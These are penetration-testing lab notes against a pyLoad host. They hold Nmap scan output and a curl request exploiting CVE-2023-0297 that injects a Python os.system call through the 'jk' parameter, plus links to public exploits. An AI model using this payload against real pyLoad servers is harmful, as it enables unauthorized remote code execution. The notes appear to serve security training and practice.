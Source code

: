 _____


> [!info]
> IP=192.168.190.26

# Nmap 

|PORT|STATE|SERVICE|
|---|---|---|
|22/tcp|open|ssh|
|9666/tcp|open|zoomcp|


```python
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)
|_  256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)
9666/tcp open  http    CherryPy wsgiserver
| http-title: Login - pyLoad 
|_Requested resource was /login?next=http://192.168.190.26:9666/
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Cheroot/8.6.0
```


## 9666 - http

- Pyload
- 
https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad


```bash
curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"ping -c1 192.168.45.165\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://192.168.190.26:9666/flash/addcrypted2'
```

https://github.com/JacobEbben/CVE-2023-0297?source=post_page-----219922de84e5--------------------------------

https://www.exploit-db.com/exploits/51532


